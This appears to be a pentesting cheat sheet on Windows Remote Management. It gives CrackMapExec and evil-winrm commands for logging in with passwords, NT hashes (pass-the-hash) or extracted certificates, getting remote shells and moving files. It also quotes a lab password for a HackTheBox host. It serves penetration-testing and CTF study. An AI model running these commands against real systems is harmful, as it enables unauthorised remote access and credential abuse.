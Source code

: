 ###### Requirement
>For WinRS to work, the domain user needs to be part of the Administrators or Remote Management Users group on the target host.
###### Authentication
```
cme winrm ip -u username -p password
cme winrm ip -u username -p password -x command
cmd winrm ip -u username -H nthash
cme winrm ip -u username -H nthash -x command
```

###### Get-shell
>This shell is the ultimate WinRM shell for hacking/pentesting.

>WinRM (Windows Remote Management) is the Microsoft implementation of WS-Management Protocol. A standard SOAP based protocol that allows hardware and operating systems from different vendors to interoperate. Microsoft included it in their Operating Systems in order to make life easier to system administrators.


```
evil-winrm -i ip -u username -p password
evil-winrm -i ip -u username -H ntlm_hash

evil-winrm basic commands:
upload local_filename || upload local_filename destination_filename
download remote_filename || download remote_filename destination_filename
```
```
Use 5986:
evil-winrm -i timelapse.htb -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV' -S
```
###### Evil-Winrm to connect via pem
```
evil-winrm -i 10.10.11.152 -S -k keyStore.pem -c keyStore.pem

Convert a PKCS#12 file (.pfx .p12) containing a private key and certificates to PEM:
openssl pkcs12 -in legacyy_dev_auth.pfx -out keyStore.pem -nodes 
```
